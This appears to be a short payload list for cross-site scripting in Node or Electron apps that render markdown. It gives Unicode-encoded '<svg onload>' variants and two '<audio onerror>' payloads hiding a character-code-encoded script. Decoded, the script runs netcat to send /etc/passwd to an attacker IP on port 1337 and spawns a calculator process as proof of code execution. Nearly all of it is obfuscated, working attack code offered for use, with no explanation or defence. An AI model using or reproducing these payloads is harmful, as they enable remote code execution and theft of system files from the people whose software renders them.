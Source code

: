 %u003Csvg onload=alert(1)>
%u3008svg onload=alert(2)> 
%uFF1Csvg onload=alert(3)>

# Payload: exec(AttackerReverse netcat stolen => /etc/passwd) && exec(calc)
[<audio src=x onerror=writeln(String.fromCharCode(10,60,97,117,100,105,111,32,115,114,99,61,120,32,111,110,101,114,114,111,114,61,34,99,111,110,115,116,32,101,120,101,99,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,101,120,101,99,59,10,101,120,101,99,40,39,110,99,32,45,119,32,51,32,49,57,50,46,49,54,56,46,49,49,49,46,49,50,57,32,49,51,51,55,32,60,32,47,101,116,99,47,112,97,115,115,119,100,39,44,32,40,101,44,32,115,116,100,111,117,116,44,32,115,116,100,101,114,114,41,61,62,32,123,32,105,102,32,40,101,32,105,110,115,116,97,110,99,101,111,102,32,69,114,114,111,114,41,32,123,10,99,111,110,115,111,108,101,46,101,114,114,111,114,40,101,41,59,32,116,104,114,111,119,32,101,59,32,125,32,99,111,110,115,111,108,101,46,108,111,103,40,39,115,116,100,111,117,116,32,39,44,32,115,116,100,111,117,116,41,59,10,99,111,110,115,111,108,101,46,108,111,103,40,39,115,116,100,101,114,114,32,39,44,32,115,116,100,101,114,114,41,59,125,41,59,10,97,108,101,114,116,40,39,49,39,41,34,62,60,115,99,114,105,112,116,62,10,118,97,114,32,80,114,111,99,101,115,115,32,61,32,112,114,111,99,101,115,115,46,98,105,110,100,105,110,103,40,39,112,114,111,99,101,115,115,95,119,114,97,112,39,41,46,80,114,111,99,101,115,115,59,10,118,97,114,32,112,114,111,99,32,61,32,110,101,119,32,80,114,111,99,101,115,115,40,41,59,10,112,114,111,99,46,111,110,101,120,105,116,32,61,32,102,117,110,99,116,105,111,110,40,97,44,98,41,32,123,125,59,10,118,97,114,32,101,110,118,32,61,32,112,114,111,99,101,115,115,46,101,110,118,59,10,118,97,114,32,101,110,118,95,32,61,32,91,93,59,10,102,111,114,32,40,118,97,114,32,107,101,121,32,105,110,32,101,110,118,41,32,101,110,118,95,46,112,117,115,104,40,107,101,121,43,39,61,39,43,101,110,118,91,107,101,121,93,41,59,10,112,114,111,99,46,115,112,97,119,110,40,123,102,105,108,101,58,39,47,117,115,114,47,98,105,110,47,103,110,111,109,101,45,99,97,108,99,117,108,97,116,111,114,39,44,99,119,100,58,110,117,108,108,44,119,105,110,100,111,119,115,86,101,114,98,97,116,105,109,65,114,103,117,109,101,110,116,115,58,102,97,108,115,101,44,100,101,116,97,99,104,101,100,58,102,97,108,115,101,44,101,110,118,80,97,105,114,115,58,101,110,118,95,44,115,116,100,105,111,58,91,123,116,121,112,101,58,39,105,103,110,111,114,101,39,125,44,123,116,121,112,101,58,39,105,103,110,111,114,101,39,125,44,123,116,121,112,101,58,39,105,103,110,111,114,101,39,125,93,125,41,59,10,60,47,115,99,114,105,112,116,62))>](http://)

# Payload 2: exec(Attacker Reverse netcat stolen => /etc/passwd) && exec(calc)
<audio src=x onerror=writeln(String.fromCharCode(10,60,97,117,100,105,111,32,115,114,99,61,120,32,111,110,101,114,114,111,114,61,34,99,111,110,115,116,32,101,120,101,99,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,101,120,101,99,59,10,101,120,101,99,40,39,110,99,32,45,119,32,51,32,49,57,50,46,49,54,56,46,49,49,49,46,49,50,57,32,49,51,51,55,32,60,32,47,101,116,99,47,112,97,115,115,119,100,39,44,32,40,101,44,32,115,116,100,111,117,116,44,32,115,116,100,101,114,114,41,61,62,32,123,32,105,102,32,40,101,32,105,110,115,116,97,110,99,101,111,102,32,69,114,114,111,114,41,32,123,10,99,111,110,115,111,108,101,46,101,114,114,111,114,40,101,41,59,32,116,104,114,111,119,32,101,59,32,125,32,99,111,110,115,111,108,101,46,108,111,103,40,39,115,116,100,111,117,116,32,39,44,32,115,116,100,111,117,116,41,59,10,99,111,110,115,111,108,101,46,108,111,103,40,39,115,116,100,101,114,114,32,39,44,32,115,116,100,101,114,114,41,59,125,41,59,10,97,108,101,114,116,40,39,49,39,41,34,62,60,115,99,114,105,112,116,62,10,118,97,114,32,80,114,111,99,101,115,115,32,61,32,112,114,111,99,101,115,115,46,98,105,110,100,105,110,103,40,39,112,114,111,99,101,115,115,95,119,114,97,112,39,41,46,80,114,111,99,101,115,115,59,10,118,97,114,32,112,114,111,99,32,61,32,110,101,119,32,80,114,111,99,101,115,115,40,41,59,10,112,114,111,99,46,111,110,101,120,105,116,32,61,32,102,117,110,99,116,105,111,110,40,97,44,98,41,32,123,125,59,10,118,97,114,32,101,110,118,32,61,32,112,114,111,99,101,115,115,46,101,110,118,59,10,118,97,114,32,101,110,118,95,32,61,32,91,93,59,10,102,111,114,32,40,118,97,114,32,107,101,121,32,105,110,32,101,110,118,41,32,101,110,118,95,46,112,117,115,104,40,107,101,121,43,39,61,39,43,101,110,118,91,107,101,121,93,41,59,10,112,114,111,99,46,115,112,97,119,110,40,123,102,105,108,101,58,39,47,117,115,114,47,98,105,110,47,103,110,111,109,101,45,99,97,108,99,117,108,97,116,111,114,39,44,99,119,100,58,110,117,108,108,44,119,105,110,100,111,119,115,86,101,114,98,97,116,105,109,65,114,103,117,109,101,110,116,115,58,102,97,108,115,101,44,100,101,116,97,99,104,101,100,58,102,97,108,115,101,44,101,110,118,80,97,105,114,115,58,101,110,118,95,44,115,116,100,105,111,58,91,123,116,121,112,101,58,39,105,103,110,111,114,101,39,125,44,123,116,121,112,101,58,39,105,103,110,111,114,101,39,125,44,123,116,121,112,101,58,39,105,103,110,111,114,101,39,125,93,125,41,59,10,60,47,115,99,114,105,112,116,62))>
